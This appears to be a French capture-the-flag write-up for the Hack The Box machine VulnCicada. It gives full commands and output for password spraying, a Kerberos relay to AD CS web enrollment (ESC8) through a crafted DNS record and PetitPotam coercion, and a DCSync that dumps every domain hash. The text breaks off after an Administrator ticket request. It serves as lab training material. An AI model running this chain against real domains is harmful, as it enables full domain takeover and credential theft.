

VulnCicada est une machine Windows Active Directory de difficulté moyenne impliquant la découverte d'un mot de passe caché dans une image sur un partage public. Avec ce mot de passe, un attaquant peut découvrir que la machine est vulnérable à `ESC8` et utiliser le `relais Kerberos` pour contourner les restrictions d'auto-relais afin d'obtenir un certificat en tant que compte machine lui-même. Avec ce nouveau certificat, nous pouvons extraire les hashes de l'utilisateur Administrator et ainsi compromettre l'ensemble du domaine.

## Enumération
### Scan de ports
Le scan `nmap` révèle 23 ports ouverts : `DNS`, `Kerberos`, `NFS`, `SMB`, `LDAP`, `WinRM`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nmap 10.129.234.48  -T4 --min-rate 1000 -sV -sC -p- -oN simple-tcp-scan.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-21 22:31 CEST
Nmap scan report for 10.129.234.48
Host is up (0.27s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 20:35:10Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  mountd        1-3 (RPC #100005)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-07-21T20:37:23+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Not valid before: 2025-04-09T08:36:14
|_Not valid after:  2025-10-09T08:36:14
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
61984/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
61986/tcp open  msrpc         Microsoft Windows RPC
62003/tcp open  unknown
62078/tcp open  iphone-sync?
62534/tcp open  unknown
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 1s, median: -2s
| smb2-time:
|   date: 2025-07-21T20:36:22
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
```

J'ajoute le nom de domaine ainsi que le FQDN dans le fichier `/etc/hosts`.
```bash
echo "10.129.234.48 cicada.vl DC-JPQ225.cicada.vl DC-JPQ225" | tee -a /etc/hosts
```

### NFS - TCP 2049
Il existe un partage NFS accessible à tous.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  showmount -e dc-jpq225.cicada.vl
Export list for dc-jpq225.cicada.vl:
/profiles (everyone)
```

Je monte alors le partage sur ma machine.
```bash
┌──(root㉿kali)-[/tmp]
└─# mkdir nfs

┌──(root㉿kali)-[/tmp]
└─# mount -t nfs dc-jqp225.cicada.vl:/profiles /tmp/nfs -nolock
mount.nfs: Failed to resolve server dc-jqp225.cicada.vl: Name or service not known

┌──(root㉿kali)-[/tmp]
└─# mount -t nfs dc-jpq225.cicada.vl:/profiles /tmp/nfs -nolock

┌──(root㉿kali)-[/tmp]
└─# cd nfs

┌──(root㉿kali)-[/tmp/nfs]
└─# ls -la
total 10
drwxrwxrwx+  2 nobody nogroup 4096 Jun  3 12:21 .
drwxrwxrwt  16 root   root     440 Jul 21 22:46 ..
drwxrwxrwx+  2 nobody nogroup   64 Sep 15  2024 Administrator
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Daniel.Marshall
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Debra.Wright
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Jane.Carter
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Jordan.Francis
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Joyce.Andrews
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Katie.Ward
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Megan.Simpson
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Richard.Gibbons
drwxrwxrwx+  2 nobody nogroup   64 Sep 15  2024 Rosie.Powell
drwxrwxrwx+  2 nobody nogroup   64 Sep 13  2024 Shirley.West
```

En énumérant les répertoires, je ne trouve rien à par l'image `marketing.png` dans le répertoire de `Rosie.Powell`.
```bash
┌──(root㉿kali)-[/tmp/cicada]
└─# tree
.
├── Administrator
│   ├── Documents
│   │   ├── $RECYCLE.BIN
│   │   │   └── desktop.ini
│   │   └── desktop.ini
│   └── vacation.png
├── Daniel.Marshall
├── Debra.Wright
├── Jane.Carter
├── Jordan.Francis
├── Joyce.Andrews
├── Katie.Ward
├── Megan.Simpson
├── Richard.Gibbons
├── Rosie.Powell
│   ├── Documents
│   │   ├── $RECYCLE.BIN
│   │   │   └── desktop.ini
│   │   └── desktop.ini
│   └── marketing.png
└── Shirley.West

```

Mot de passe `Cicada123` trouvé.


### SMB - TCP 445
Authentification `anonyme` ainsi qu'en tant que `Guest` impossible.
```
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nxc smb dc-jpq225.cicada.vl -u '' -p ''
SMB         10.129.234.48   445    10.129.234.48    [*]  x64 (name:10.129.234.48) (domain:10.129.234.48) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\: STATUS_NOT_SUPPORTED
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nxc smb dc-jpq225.cicada.vl -u 'Guest' -p ''
```

L'authentification NTLM est désactivée.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nxc smb dc-jpq225.cicada.vl -u usernames.txt -p 'Cicada123' --continue-on-success
SMB         10.129.234.48   445    10.129.234.48    [*]  x64 (name:10.129.234.48) (domain:10.129.234.48) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Administrator:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Daniel.Marshall:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Debra.Wright:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Jane.Carter:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Jordan.Francis:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Joyce.Andrews:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Katie.Ward:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Megan.Simpson:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Richard.Gibbons:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Rosie.Powell:Cicada123 STATUS_NOT_SUPPORTED
SMB         10.129.234.48   445    10.129.234.48    [-] 10.129.234.48\Shirley.West:Cicada123 STATUS_NOT_SUPPORTED
```

Donc j'utilise l'option `-k` pour Kerberos et je vois que le mot de passe appartient à l'utilisateur `rosie.powell`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nxc smb dc-jpq225.cicada.vl -u usernames.txt -p 'Cicada123' -k --continue-on-success
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [*]  x64 (name:dc-jpq225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Administrator:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Daniel.Marshall:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Debra.Wright:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Jane.Carter:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Jordan.Francis:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Joyce.Andrews:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Katie.Ward:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Megan.Simpson:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Richard.Gibbons:Cicada123 KDC_ERR_PREAUTH_FAILED
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] Error checking if user is admin on dc-jpq225.cicada.vl: The NETBIOS connection with the remote host timed out.
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [+] cicada.vl\Rosie.Powell:Cicada123
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [-] cicada.vl\Shirley.West:Cicada123 KDC_ERR_CLIENT_REVOKED
```

Je génère un nouveau fichier `/etc/krb5.conf`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nxc smb dc-jpq225.cicada.vl -u 'rosie.powell' -p 'Cicada123' -k --generate-krb5-file /etc/krb5.conf
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [*]  x64 (name:dc-jpq225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc-jpq225.cicada.vl 445    dc-jpq225        [+] cicada.vl\rosie.powell:Cicada123
```

Je génère un TGT pour `rosie.powell`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  faketime "$(rdate -n dc-jpq225.cicada.vl -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  getTGT.py cicada.vl/'rosie.powell':'Cicada123'
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in rosie.powell.ccache
```

En énumérant les partages avec smbclient.py, j'accède au partage `CertEnroll`. `rosie.powell` peut donc énumérer les certificats.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  smbclient.py dc-jpq225.cicada.vl -k -no-pass
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# shares
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
profiles$
SYSVOL
# use CertEnroll
# dir
*** Unknown syntax: dir
# ls
drw-rw-rw-          0  Mon Jul 21 22:35:25 2025 .
drw-rw-rw-          0  Fri Sep 13 17:17:59 2024 ..
-rw-rw-rw-        741  Mon Jul 21 22:30:08 2025 cicada-DC-JPQ225-CA(1)+.crl
-rw-rw-rw-        941  Mon Jul 21 22:30:08 2025 cicada-DC-JPQ225-CA(1).crl
-rw-rw-rw-        742  Mon Jul 21 22:30:07 2025 cicada-DC-JPQ225-CA(10)+.crl
-rw-rw-rw-        943  Mon Jul 21 22:30:07 2025 cicada-DC-JPQ225-CA(10).crl
-rw-rw-rw-        742  Mon Jul 21 22:30:07 2025 cicada-DC-JPQ225-CA(11)+.crl
-rw-rw-rw-        943  Mon Jul 21 22:30:07 2025 cicada-DC-JPQ225-CA(11).crl
<snip>
```

## Shell en tant qu'administrateur
### BloodHound
J'utilise l'option `--bloodhound` pour récupérer les relations entre les objets du domaine.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  nxc ldap dc-jpq225.cicada.vl -u rosie.powell -p 'Cicada123' -k --bloodhound -c All --dns-server 10.129.234.48
LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225        [*] None (name:DC-JPQ225) (domain:cicada.vl)
LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225        [+] cicada.vl\rosie.powell:Cicada123
LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225        Resolved collection methods: dcom, localadmin, group, rdp, acl, psremote, container, objectprops, session, trusts
LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225        Using kerberos auth without ccache, getting TGT
LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225        Done in 00M 15S
LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225        Compressing output into /root/.nxc/logs/DC-JPQ225_dc-jpq225.cicada.vl_2025-07-21_233330_bloodhound.zip
```

`rosie.powell` ainsi que tous les autres utilisateurs sont membres du groupe `cicada`.


### ESC8
J'utilise `certipy` pour énumérer les certificats vulnérables. Je vois que `certipy` ne trouve pas de Templates vulnérables, mais plutôt le certificat lui même vulnérable à une `ESC8`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  certipy find -u 'rosie.powell@cicada.vl' -p 'Cicada123' -target 'dc-jpq225.cicada.vl' -k -vulnerable -stdout -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: CICADA.VL
[+] Username retrieved from CCache: rosie.powell
[+] Trying to resolve 'dc-jpq225.cicada.vl' at '8.8.8.8'
[+] Trying to resolve 'CICADA.VL' at '8.8.8.8'
[+] Authenticating to LDAP server
[+] Using Kerberos Cache: rosie.powell.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: rosie.powell
[+] Getting TGS for 'host/dc-jpq225.cicada.vl'
[+] Got TGS for 'host/dc-jpq225.cicada.vl'
[+] Bound to ldaps://10.129.234.48:636 - ssl
[+] Default path: DC=cicada,DC=vl
[+] Configuration path: CN=Configuration,DC=cicada,DC=vl
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     CICADA.VL\Rosie Powell (S-1-5-21-687703393-1447795882-66098247-1109)
     CICADA.VL\Authenticated Users (CICADA.VL-S-1-5-11)
     CICADA.VL\Domain Users (S-1-5-21-687703393-1447795882-66098247-513)
     CICADA.VL\Everyone (CICADA.VL-S-1-1-0)
     CICADA.VL\cicada (S-1-5-21-687703393-1447795882-66098247-1103)
     CICADA.VL\Domain Computers (S-1-5-21-687703393-1447795882-66098247-515)
     CICADA.VL\Users (CICADA.VL-S-1-5-32-545)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[+] Trying to resolve 'DC-JPQ225.cicada.vl' at '8.8.8.8'
[*] Trying to get CA configuration for 'cicada-DC-JPQ225-CA' via CSRA
[+] Trying to get DCOM connection for: 10.129.234.48
[+] Using Kerberos Cache: rosie.powell.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: rosie.powell
[+] Getting TGS for 'host/DC-JPQ225.cicada.vl'
[+] Got TGS for 'host/DC-JPQ225.cicada.vl'
[!] Got error while trying to get CA configuration for 'cicada-DC-JPQ225-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'cicada-DC-JPQ225-CA' via RRP
[+] Using Kerberos Cache: rosie.powell.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: rosie.powell
[+] Getting TGS for 'host/DC-JPQ225.cicada.vl'
[+] Got TGS for 'host/DC-JPQ225.cicada.vl'
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'DC-JPQ225.cicada.vl' (10.129.234.48)
[*] Got CA configuration for 'cicada-DC-JPQ225-CA'
[+] Resolved 'DC-JPQ225.cicada.vl' from cache: 10.129.234.48
[+] Connecting to 10.129.234.48:80
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Certificate Subject                 : CN=cicada-DC-JPQ225-CA, DC=cicada, DC=vl
    Certificate Serial Number           : 62A1C7D3543079854BFCDA3A6AEBD532
    Certificate Validity Start          : 2025-07-21 20:25:16+00:00
    Certificate Validity End            : 2525-07-21 20:35:16+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CICADA.VL\Administrators
      Access Rights
        ManageCertificates              : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        ManageCa                        : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        Enroll                          : CICADA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
Certificate Templates                   : [!] Could not find any certificate templates
```

ESC8 décrit un vecteur d'escalade de privilèges où un attaquant effectue une attaque par relai NTLM contre un point de terminaison d'inscription ADCS basé sur HTTP. Ces interfaces web fournissent des méthodes alternatives permettant aux utilisateurs et aux ordinateurs de demander des certificats.
Pour plus d'informations :
- [Certipy wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc8-ntlm-relay-to-ad-cs-web-enrollment)
- [TheHackerRecipes](https://www.thehacker.recipes/ad/movement/adcs/unsigned-endpoints#web-endpoint-esc8)
-  [Youtube](https://youtu.be/FhJpfWZ6NQA?si=ovLl13QlG5pMcYgb)
- [Tiraniddo](https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html)
- [Synacktiv](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html)

En regardant le writeup de `0xdf` ainsi que le poste de [Synactiv](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html), je vois qu'il faut ajouter un enregistrement DNS qui inclut un SPN sérialisé qui incitera le serveur à demander un ticket Kerberos pour le compte de la machine mais se connecte à l'enregistrement malveillant qui pointe vers l'attaquant.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  bloodyAD -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.10.14.89
[+] dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA has been successfully added
```

Ensuite, nous démarrerons notre serveur relais sur lequel nous travaillerons pour que ADCS s'authentifie.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  krbrelayx.py -t "http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp" --adcs --template DomainController -smb2support -v 'DC-JPQ225$'
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
```

J'utilise ensuite `netexec` pour tenter de le forcer à s'authentifier auprès de notre serveur. Nous devons d'abord déterminer les méthodes que `netexec` considère comme efficaces.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  netexec smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER=dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA METHOD=PetitPotam
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PetitPotam
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, lsarpc\EfsRpcAddUsersToFile
```

J'obtiens une connexion au niveau du relais, et cela crée finalement un certificat.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  krbrelayx.py -t "http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp" --adcs --template DomainController -smb2support -v 'DC-JPQ225$'
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.4.235
[*] HTTP server returned status code 200, treating as a successful login
[*] SMBD: Received connection from 10.129.4.235
[*] HTTP server returned status code 200, treating as a successful login
[*] Generating CSR...
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 88
[*] GOT CERTIFICATE! ID 87
[*] Writing PKCS#12 certificate to ./DC-JPQ225$.pfx
[*] Writing PKCS#12 certificate to ./DC-JPQ225$.pfx
[*] Certificate successfully written to file
[*] Certificate successfully written to file
```

Je m'authentifie avec `certipy` et je récupère le hash du compte machine `dc-jpq225$` ainsi que le TGT que j'exporte dans la variable `KRB5CCNAME`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  certipy auth -pfx DC-JPQ225\$.pfx -domain "cicada.vl"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc-jpq225$@cicada.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3

╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  export KRB5CCNAME=dc-jpq225\$.ccache
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  klist
Ticket cache: FILE:dc-jpq225$.ccache
Default principal: dc-jpq225$@CICADA.VL

Valid starting       Expires              Service principal
07/22/2025 15:26:27  07/23/2025 01:26:27  krbtgt/CICADA.VL@CICADA.VL
        renew until 07/23/2025 15:26:28
```

### DCSync
J'utilise `secretsdump` pour récupérer les hash de tous les utilisateurs du domaine. Je n'ai normalement pas besoin des hash de tous les utilisateurs mais juste celui de l'administrateur. Pour cela on peut utiliser l'option `-just-dc-user <USERNAME>`.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  secretsdump -k -no-pass 'cicada.vl/dc-jpq225$@dc-jpq225.cicada.vl'
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8dd165a43fcb66d6a0e2924bb67e040c:::
cicada.vl\Shirley.West:1104:aad3b435b51404eeaad3b435b51404ee:ff99630bed1e3bfd90e6a193d603113f:::
cicada.vl\Jordan.Francis:1105:aad3b435b51404eeaad3b435b51404ee:f5caf661b715c4e1435dfae92c2a65e3:::
cicada.vl\Jane.Carter:1106:aad3b435b51404eeaad3b435b51404ee:7e133f348892d577014787cbc0206aba:::
cicada.vl\Joyce.Andrews:1107:aad3b435b51404eeaad3b435b51404ee:584c796cd820a48be7d8498bc56b4237:::
cicada.vl\Daniel.Marshall:1108:aad3b435b51404eeaad3b435b51404ee:8cdf5eeb0d101559fa4bf00923cdef81:::
cicada.vl\Rosie.Powell:1109:aad3b435b51404eeaad3b435b51404ee:ff99630bed1e3bfd90e6a193d603113f:::
cicada.vl\Megan.Simpson:1110:aad3b435b51404eeaad3b435b51404ee:6e63f30a8852d044debf94d73877076a:::
cicada.vl\Katie.Ward:1111:aad3b435b51404eeaad3b435b51404ee:42f8890ec1d9b9c76a187eada81adf1e:::
cicada.vl\Richard.Gibbons:1112:aad3b435b51404eeaad3b435b51404ee:d278a9baf249d01b9437f0374bf2e32e:::
cicada.vl\Debra.Wright:1113:aad3b435b51404eeaad3b435b51404ee:d9a2147edbface1666532c9b3acafaf3:::
DC-JPQ225$:1000:aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3:::
```

Je forge un ticket pour l'administrateur et me connecte à la machine avec `evil-winrm`. Je récupère donc les deux flags.
```bash
╭─root@exegol-hackthebox /workspace/VulnCicada
╰─➤  getTGT.py cicada.vl/'administrator' -hashes ':85a0da53871a9d56b6cd05deda3a5e87'
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in administrator.ccache
╭─root@exegol-hackthebox /workspace/VulnCicada
